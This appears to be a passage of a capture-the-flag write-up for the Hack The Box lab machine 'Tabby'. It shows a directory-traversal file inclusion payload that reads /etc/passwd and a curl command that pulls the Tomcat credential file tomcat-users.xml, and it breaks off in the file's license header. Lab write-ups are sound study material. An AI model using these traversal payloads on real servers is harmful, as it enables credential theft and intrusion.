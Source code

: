 POC: `http://megahosting.htb/news.php?file=../../../../../../etc/passwd`

- root
- ash

![image-20240123062530644](./Tabby.assets/image-20240123062530644.png)

**LFI** -> tomcat cred leakage -> `/tomcat-users.xml`

- CATALINA_HOME = `/usr/share/tomcat9`
- CATALINA_BASE = `/var/lib/tomcat9`

![image-20240123062606452](./Tabby.assets/image-20240123062606452.png)

Tomcat Document Page:

![image-20240123062820751](./Tabby.assets/image-20240123062820751.png)

**LFI creds found in**:

- [ ] `/etc/tomcat9/tomcat-users.xml`
- [ ] `$CATALINA_HOME/conf/tomcat-users.xml`
- [x] `$CATALINA_HOME/etc/tomcat-users.xml`

```console
$ curl http://megahosting.htb/news.php?file=../../../../../../usr/share/tomcat9/etc/tomcat-users.xml
<?xml version="1.0" encoding="UTF-8"?>
<!--
  Licensed to the Apache Software Foundation (ASF) under one or more
  contributor license agreements.  See the NOTICE file distributed with
  this work for additional information regarding copyright ownership.
  The ASF licenses this file to You under the Apache License, Version 2.0
  (the "License"); you may not use this file except in compliance with
  the License.  You may obtain a copy of the License at

      http://www.apache.org/licenses/LICENSE-2.0

  Unless required by applicable law or agreed to in writing, software
  distributed under the License is distributed on an "AS IS" BASIS,
  WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
  See the License for the specific language governing permissions and
```